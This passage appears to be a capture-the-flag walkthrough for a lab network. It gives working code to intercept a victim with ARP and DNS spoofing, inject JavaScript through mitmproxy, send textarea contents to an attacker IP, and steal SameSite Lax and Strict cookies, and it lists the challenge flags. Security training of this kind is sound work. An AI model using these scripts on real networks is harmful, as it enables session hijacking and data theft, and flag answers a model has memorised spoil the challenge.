

If you want to be able to paste into the console, type `allow pasting` as shown in the image. Note you may need to try pasting into the console first, and then type `allow pasting` when prompted. Now let's try out the following JavaScript. Paste it into your console and hit enter to run it. Be sure to replace `IP_ADDRESS` with your correct IP address in the code below!

```JS
setTimeout(() => { //Create a function that will be run in 3000 milliseconds
        const note = document.getElementById("notes"); //Get the textarea by it's ID
        if (note) {
            const contents = note.value;  //Get the current text
            console.log("Note contents:", contents); //Optional, logs it to the console

            // Send it our waiting Python server as part of the URL, encoding it first
            fetch("http://IP_ADDRESS:8000?note=" + encodeURIComponent(contents));
        }
    }, 3000);
```



You should see the text you entered in the URL logged by the Python web server.

With our payload working, we now need to inject it. We can write another script for `mitmproxy` using the `response` functions that can be defined to work with HTTP flows. The script is provided below and [here](./scripts/mitmWeb.py). Again, be sure to replace `IP_ADDRESS` with your correct IP address.

```python
from mitmproxy import http

# Our payload, condensed
INJECTED_JS = """
<script>setTimeout(() => {
const note = document.getElementById("notes");
if (note) {
    const contents = note.value;
    fetch("http://IP_ADDRESS:8000?note=" + encodeURIComponent(contents));
}},5000);</script>
"""

# Function we define to hook incoming HTTP responses
def response(flow: http.HTTPFlow) -> None:
    # Only modify HTML responses
    if "text/html" in flow.response.headers.get("content-type", ""):
        text = flow.response.get_text()  # Retrieve the HTML
        if "</body>" in text:  # Find the end of the HTML
            # Place our script at the end
            text = text.replace("</body>", INJECTED_JS + "</body>")
            # Finalize change to the flow
            flow.response.set_text(text)
```

As before, copy this into a file named `mitmWeb.py`, and run `mitmproxy`. If you stopped your `arpspoof` or python web server, restart them first. 

```bash
sudo mitmproxy --mode transparent -s mitmWeb.py
```

If you select one of the HTTP flows now, and switch to the `Response` tab, you should see the HTML now contains our injected JavaScript (and it's been nicely reformatted too). After a few seconds, you should see the token in the log. If not, try increasing the timeout by another 1000 milliseconds (in the image below, I originally tried 2000, which was insufficient).



Since it is part of the URL, the token is encoded. You can use an online tool like https://www.urldecoder.org/ or simply guess (correctly) that the encoded symbols are `{` and `}`.

### Answer

In this case, the token was `PCCC{U_Stole_A_Monkeys_Shopping_List_91_71VI}`.

## Question 7

*Combine all of these skills to extract the cookie `tokenLax` belonging to the domain `external.target.pccc` on port `80` on the `webvictim.pccc` host*

*This cookie is marked as `SameSite: Lax`*

This next token will combine all of the knowledge from the previous tasks to sucessfully steal a `SameSite: Lax` cookie for a different site. 

<details>
<summary>SameSite and cookies?</summary>

The term `SameSite` refers a to browser security setting for cookies. Cookies are sent in the headers of HTTP requests, usually to provide some sort of state, such as a session ID. 

If a cookie is set as `SameSite: None`, it means that cookie is sent in all HTTP requests, no matter where they originate.

If a cookie is set as `SameSite: Lax`, it means that the is only sent in some HTTP requests. The two key restrictions for us are 1) all `GET` top-level navigation (changes the URL in the URL bar) requests initiated by a user or 2) the request originates from the same site (e.g., a cookie for `example.com` will be sent in a POST request that is originated from any page on `example.com`). It's of course a little more complicated than that, but that's what we need for now. Portswigger has a great write up at https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions.

If a cookie is set as `SameSite: Strict`, that means the cookie will ONLY be sent if the originating site is the same. This is true even for `GET` requests.
</details>

Since the cookie is `SameSite: Lax`, we need to intercept a top-level navigation GET request to `external.target.pccc`. Fortunately for us, simply running something like `window.open("http://external.target.pccc", "_blank");` in our JavaScript will do that. Let's modify our proxy script in a new file called `mitmLaxCookie.py` (available [here](./scripts/mitmLaxCookie.py)).

```python
from mitmproxy import http

# Our payload, condensed
INJECTED_JS = """
<script>setTimeout(() => {window.open("http://external.target.pccc", "_blank");},3000);</script>
"""

# Function we define to hook incoming HTTP responses
def response(flow: http.HTTPFlow) -> None:
    # Only modify HTML responses
    if "text/html" in flow.response.headers.get("content-type", ""):
        text = flow.response.get_text()  # Retrieve the HTML
        if "</body>" in text:  # Find the end of the HTML
            # Place our script at the end
            text = text.replace("</body>", INJECTED_JS + "</body>")
            # Finalize change to the flow
            flow.response.set_text(text)
```

The above script is identical to before, but now opens `http://external.target.pccc` in a new window. Unfortunately, we are not `external.target.pccc`. This is where our DNS spoofing from before comes in! Our attack will take the following steps.

1. Use arpspoof on `webVictim.pccc` to intercept their HTTP requests to `web.pccc`
2. Use arpspoof on `webVictim.pccc` to intercept their DNS requests
3. Use `dnsspoof` to map our IP to `external.target.pccc`
4. Inject our malicious JavaScript into the request using `mitmproxy`
5. Listen using a (different) Python web server to catch the cookies

We figured out step 4, and already know how to do the rest from our earlier tokens! Here is the full list of commands for steps 1-4. If you currently have any outstanding `arpspoof`, `mitmproxy`, or other commands, close those terminals, and run these instead. If you want to copy-paste all the commands at once, run `sudo whoami` first to enter the password. As always, be sure to replace the IP address in the commands with your own IP address.

```bash
sudo arpspoof -t webVictim.pccc web.pccc -i eth1 2>/dev/null &

sudo arpspoof -t webVictim.pccc dnsmasq.pccc -i eth1 2>/dev/null &

echo "10.0.67.9 external.target.pccc" > spoof.hosts
sudo dnsspoof -f spoof.hosts -i eth1 2>/dev/null &

sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo mitmproxy --mode transparent -s mitmLaxCookie.py
```

Unfortunately, our Python simple web server won't work this time since we need to log the data in the request as well. Instead, we can extend the module to log the data that we want. This is done in the following script (also available [here](./scripts/cookies.py), but this contains the solution for the next part as well). Save this script into the file `cookies.py`.

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class VerboseHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        # Log full request info (like built-in http.server)
        print(f"{self.client_address[0]} - - [{self.log_date_time_string()}] \"{self.requestline}\" {200}")

        # Extract and print cookies
        cookies = self.headers.get('Cookie', '')
        if cookies:
            print(f"[+] Cookie: {cookies}")

        # Finished response "cleanly"
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write("<p>Hacked :P!</p>".encode())

if __name__ == '__main__':
    server_address = ('', 80)
    httpd = HTTPServer(server_address, VerboseHandler)
    print("[*] Listening on port 80...")
    httpd.serve_forever()
```

Now run the script in a new terminal with `python cookies.py`. You should now have two terminals, one with `mitmproxy` (with `arpspoof` and `dnspoof` running in the background) and the other with the Python script. After a few seconds, you should see an HTTP request come in containing your token in the cookie.


### Answer

In this case, the token was `PCCC{C00k13_B4nd1t_91_85ps}`.

## Question 8

*Combine all of these skills to extract the cookie `tokenStrict` belonging to domain `external.target.pccc` on port `80` on the `webvictim.pccc` host*

*This cookie is marked as `SameSite: Strict`*

All of the previous tokens built up to this moment. With all of the work we've done previously, we just need to make one small change to get our last token.

To get the strict cookie, we need the browser to originate the request from the domain `external.target.pccc`. Fortunately, our prior work has the browser visiting what it believes is `external.target.pccc`, but is actually us. This means we can return another HTML file containing malicious JavaScript; making another request with this new JavaScript will now count as same site, and will contain the cookie we need.

Let's modify our Python web server so it actually returns HTML, containing our final malicious JavaScript.

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

index= """<!DOCTYPE html>
<html>
  <body>
    <script>
      // Escalate to a same-site request that will include the Strict cookie
      window.open("/leak", "_self");
    </script>
  </body>
</html>"""

class VerboseHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        # Log full request info (like built-in http.server)
        print(f"{self.client_address[0]} - - [{self.log_date_time_string()}] \"{self.requestline}\" {200}")

        # Extract and print cookies
        cookies = self.headers.get('Cookie', '')
        if cookies:
            print(f"[+] Cookie: {cookies}")

        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        if self.path == "/":
            self.wfile.write(index.encode())
        else:
            self.wfile.write("<p>Hacked :P!</p>".encode())

if __name__ == '__main__':
    server_address = ('', 80)
    httpd = HTTPServer(server_address, VerboseHandler)
    print("[*] Listening on port 80...")
    httpd.serve_forever()
```

To map out our attack, it works like this:

```none

1. webVictim.pccc -> mitmProxy -> web.pccc

2. web.pccc -> mitmProxy(injects malicious JS opening external.target.pccc) -> webVictim

3. webVictim.pccc(because of injected JS) -> our Python server

4. our python server(different malicious JS) -> webVictim

5. webVictim.pccc(now sameSite due to second JS, with cookie) -> our Python server (receives cookie)
```

Edit your `cookie.py` to contains the above script, and start the Python web server up once more. If you stopped the commands from the previous Question, run those as well. Note that you will get multiple requests each time, and the `Lax` token will always be included as part of the cookies.



### Answer

In this case, the token was `PCCC{U_R_The_M0nk3y_M4st3r_95_03PS}`.
